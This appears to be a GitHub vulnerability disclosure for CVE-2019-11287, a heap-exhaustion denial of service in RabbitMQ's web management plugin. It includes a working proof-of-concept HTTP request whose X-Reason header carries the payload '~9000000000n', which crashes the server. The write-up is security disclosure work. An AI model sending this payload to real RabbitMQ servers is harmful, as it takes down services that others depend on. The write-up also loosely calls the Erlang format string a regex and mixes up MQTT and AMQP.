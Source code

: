 # CVE-2019-11287: RabbitMQ Web Management Plugin DoS via Heap Overflow 

Pivotal RabbitMQ, versions 3.7.x prior to 3.7.21 and 3.8.x prior to 3.8.1, and RabbitMQ for Pivotal Platform, 1.16.x versions prior to 1.16.7 and 1.17.x versions prior to 1.17.4, contain a web management plugin that is vulnerable to a denial of service attack.
<br/>
The "X-Reason" HTTP Header can be leveraged to insert a malicious Erlang format string that will expand and consume the heap, resulting in the server crashing.

<table>
	<tr>
		<th>Affected Products</th>
		<th>Affected Versions</th>
	</tr>
	<tr>
		<td>Pivotal RabbitMQ</td>
		<td>3.7.x prior to 3.7.21 and 3.8.x prior to 3.8.1</td>
	</tr>
	<tr>
		<td>RabbitMQ for Pivotal Platform</td>
		<td>1.16.x prior to 1.16.7 and 1.17.x prior to 1.17.4</td>
	</tr>
</table>

### Vendor Disclosure:

The vendor's disclosure and mitigation of this vulnerability can be found [here](https://pivotal.io/security/cve-2019-11287). 


### Requirements:

For successful exploitation of the vulnerability, the attacker will require:
- Credentials for the Web Management Plugin (Ex. guest:guest)
- An MQTT connection which can be "Force Closed"


### Proof Of Concept:

#### Step 1 - AMQP connection
Initiate or wait for a AMQP connection to be established to the server

<img src="Connections.png">

#### Step 2 - ReDoS
Click on the connection and insert the malicious payload in the "Reason" field, afterwards click the "Force Close" button.
<br/>
In this case the payload is "~9000000000n", a regex which will try in the backend to result in generating a string containing 9000000000 new line characters.

<img src="Force%20Close.png">

#### Request

```
DELETE /api/connections/127.0.0.1%3A51115%20-%3E%20127.0.0.1%3A5672 HTTP/1.1
Host: 127.0.0.1:15672
content-type: application/json
authorization: Basic Z***TRUNCATED***=
X-Reason: ~9000000000n
Content-Length: 68
Cookie: m=2258:Z***TRUNCATED***=

{"name":"127.0.0.1:51115 -> 127.0.0.1:5672","reason":"~9000000000n"}
```

<strong>Note:</strong> Only the "X-Reason" HTTP Header is interpreted in an unsafe way by the server. The "reason" variable in the JSON payload does not affect the outcome in any way.

#### Result

The result of this payload is that the RabbitMQ server on 5672 and RabbitMQ Web Management Plugin on 15672 crash. The report of the crash can be found in "/var/log/rabbitmq/erl_crash.dump" and shows the misallocation of the heap.

<img src="Crash.png">

<strong>Note:</strong> The "top" tool can be used to see the spike in CPU and Memory consumption of the RabbitMQ "beam.smp" command.

<img src="Top.png">

